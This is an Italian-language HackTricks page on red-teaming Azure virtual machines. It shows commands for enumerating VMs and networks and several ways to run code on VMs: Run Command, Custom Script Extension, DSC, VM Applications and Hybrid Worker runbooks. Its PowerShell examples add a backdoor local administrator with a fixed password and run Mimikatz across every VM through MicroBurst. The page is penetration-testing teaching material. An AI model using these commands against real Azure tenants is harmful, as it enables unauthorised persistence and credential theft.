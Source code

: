 # Az - Macchine Virtuali e Rete

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di github.

</details>
{% endhint %}

## Informazioni di base

[Dalla documentazione:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Le macchine virtuali di Azure sono uno dei vari tipi di [risorse di calcolo scalabili su richiesta](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) offerte da Azure. Tipicamente, si sceglie una macchina virtuale quando si ha bisogno di un maggiore controllo sull'ambiente di calcolo rispetto alle altre opzioni offerte. Questo articolo fornisce informazioni su cosa dovresti considerare prima di creare una macchina virtuale, come crearla e come gestirla.

## Informazioni sulla Rete di Azure

Le reti di Azure contengono **entità diverse e modi per configurarle.** Puoi trovare brevi **descrizioni,** **esempi** e **comandi di enumerazione** delle diverse entità di rete di Azure in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offre una soluzione di accesso sicuro e completamente gestita tramite SSL per RDP (Remote Desktop Protocol) e SSH (Secure Shell) attraverso il portale di Azure. È integrato all'interno di una Rete Virtuale di Azure, consentendo la connettività RDP e SSH alle VM utilizzando IP privati, evitando la necessità di IP pubblici. Questo lo rende un'alternativa più sicura e conveniente rispetto ai metodi tradizionali che coinvolgono assegnazioni di IP pubblici e configurazioni di regole NSG per l'accesso alle VM. Sviluppatori e personale IT possono accedere in modo sicuro alle VM dal portale di Azure utilizzando i loro browser web, semplificando il processo per gli ambienti di sviluppo e test.

Per elencare tutti gli Host di Azure Bastion nel tuo abbonamento, puoi utilizzare il seguente comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumerazione delle VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Esegui comandi in una VM**

### **Accesso AAD nella VM**

È possibile consentire l'accesso agli utenti autenticati tramite AzureAD. Ad esempio, provando ad accedere a una **VM Linux**: `ssh username@azure-corp.com@1.1.1.1` (è importante **utilizzare l'email** con azurecorp utilizzato durante il tentativo di accesso) potresti ricevere un errore come:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Basta **seguire quelle istruzioni** andando su [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando il codice, utilizzare l'email e la password come credenziali e sarai in grado di connetterti tramite SSH (se quell'utente ha abbastanza autorizzazioni per farlo: ruolo `Accesso amministratore macchina virtuale` o ruolo `Accesso utente macchina virtuale`).

### **Esegui il comando**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Esegui l'Estensione Script Personalizzato**

Le estensioni delle macchine virtuali (VM) di Azure sono **piccole applicazioni** che forniscono configurazioni post-distribuzione e compiti di automazione su **Azure VM**. Ad esempio, se una macchina virtuale richiede l'installazione di software, protezione antivirus o la capacità di eseguire uno script al suo interno, è possibile utilizzare un'estensione VM.

Pertanto, se hai accesso per scriverlo, puoi eseguire codice arbitrario:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### StatoConfigurazioneDesiderato (DSC)

StatoConfigurazioneDesiderato (DSC) è uno strumento PowerShell simile ad Ansible, utilizzato per configurare un host tramite codice. DSC si integra con Azure, consentendo il caricamento di file di configurazione specifici. Questi file devono rispettare una sintassi rigorosa. In particolare, l'estensione DSC in Azure può eseguire comandi da file che soddisfano determinati criteri di formattazione, anche se la sintassi non è corretta secondo gli standard DSC, come mostrato nella figura fornita.

L'esecuzione di questi comandi è facilitata dalla funzione [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) in Az PowerShell. I requisiti includono un file **.PS1** con una funzione definita e il file deve essere compresso in un file **.zip**. Anche se la sintassi potrebbe non essere corretta per DSC, il codice verrà comunque eseguito. Tuttavia, l'estensione contrassegnerà lo stato di esecuzione come "fallimento" e nessun output del comando sarà visibile a causa dello stato sovrascritto dal messaggio di errore.

### Definizioni Applicazione VM

Le Definizioni Applicazione VM consentono il rilascio ripetibile di applicazioni versionate su una VM Azure. Questa risorsa supporta il rilascio e l'aggiornamento di applicazioni su più VM. Per configurare questo, sono necessari diversi passaggi, che coinvolgono comandi come **`New-AzGalleryApplication`** e **`New-AzGalleryApplicationVersion`** in Az PowerShell.

L'esecuzione di applicazioni o comandi tramite questo metodo coinvolge il **"VMAppExtension"**, che viene installato automaticamente quando un'applicazione viene applicata a una VM. L'estensione recupera il file dall'URI specificato e lo nomina esattamente come l'applicazione, senza estensione. Per eseguire correttamente il file, il campo "ManageActions" nella chiamata API REST deve essere configurato per rinominare il file con l'estensione appropriata. La configurazione di questo metodo, una volta completata, assomiglierà alla struttura mostrata nella figura fornita.

Tuttavia, questo metodo di esecuzione è relativamente lento, impiegando circa 3-4 minuti per eseguire un'applicazione o un comando. I file relativi a questo processo sono memorizzati in directory specifiche (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` per la copia dell'applicazione e `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` per lo stato di esecuzione).

Entrambe le tecniche forniscono modi unici per eseguire comandi e distribuire applicazioni negli ambienti Azure, ognuna con il proprio insieme di requisiti, passaggi e considerazioni.

### Gruppi di Lavoratori Ibridi (HWGs) in Azure

[**Gruppi di Lavoratori Ibridi (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sono una funzionalità in Azure che consente ai Runbook, configurati in un Account di Automazione, di essere eseguiti su una Virtual Machine (VM) Azure che fa parte dell'HWG designato. Questa esecuzione è facilitata tramite un'estensione installata sulla VM, che distribuisce il codice del Runbook sulla VM. Un aspetto significativo di questo processo è che le credenziali effettive non sono un fattore nell'esecuzione perché il codice viene eseguito con privilegi elevati, specificamente come **SYSTEM** o root, come illustrato nella figura fornita.

Un dettaglio cruciale per coloro che utilizzano VM Windows 10 è la necessità di specificare la versione di PowerShell per il Runbook. Dovrebbe essere impostato per eseguire come Versione PowerShell 5.1 invece di 7.1. Questo requisito deriva dal fatto che PowerShell 7.1 non è installato per impostazione predefinita su queste VM, portando a un fallimento nell'esecuzione dello script se viene specificata la versione 7.1.

Questa funzionalità di Azure offre un metodo robusto per automatizzare e gestire attività in ambienti ibridi, consentendo una gestione centralizzata e l'esecuzione di attività su VM Azure.


## Riferimenti

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di github.

</details>
{% endhint %}
